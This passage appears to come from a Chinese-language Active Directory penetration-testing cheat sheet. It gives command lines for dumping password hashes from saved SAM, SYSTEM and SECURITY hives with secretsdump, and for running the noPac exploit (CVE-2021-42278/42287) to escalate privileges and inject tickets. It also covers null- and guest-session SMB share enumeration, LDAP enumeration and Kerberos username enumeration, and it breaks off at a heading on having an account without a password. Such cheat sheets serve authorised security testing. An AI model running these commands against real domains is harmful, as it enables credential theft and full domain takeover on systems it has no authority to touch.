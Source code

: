 ```
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

然后恢复。

##### CVE-2021-42278 && CVE-2021-42287

[sam-the-admin](https://github.com/WazeHell/sam-the-admin)

[noPac: CVE-2021-42287/CVE-2021-42278](https://github.com/cube0x0/noPac)

```
./noPac.exe -domain dc.com -user username -pass 'password' /dc owa.dc.com
/mAccount mAusername /mPassword password /service cifs /ptt
```

# 4.列出可匿名访问的SMB共享

```
enum4linux -a -u "" -p "" <dc-ip> && enum4linux -a -u "guest" -p "" <dc-ip>

smbmap -u "" -p "" -P 445 -H <dc-ip> && smbmap -u "guest" -p "" -P 445 -H <dc-ip>

smbclient -U '%' -L //<dc-ip> && smbclient -U 'guest%' -L //<dc-ip>

cme smb <ip> -u '' -p '' # 枚举可空Session访问的SMB共享

cme smb <ip> -u 'a' -p '' #枚举可匿名访问的SMB共享
```

# 5.枚举LDAP

```
nmap -n -sV --script "ldap* and not brute" -p 389 <dc-ip>

ldapsearch -x -h <ip> -s base  
```

# 6.查找用户名

```
enum4linux -U <dc-ip> | grep 'user:'

crackmapexec smb <ip> -u <user> -p '<password>' --users 

nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>',userdb=<users_list_file>" <ip> 

OSINT - 在互联网上寻找用户名
```

## 得到账号，但是没有密码
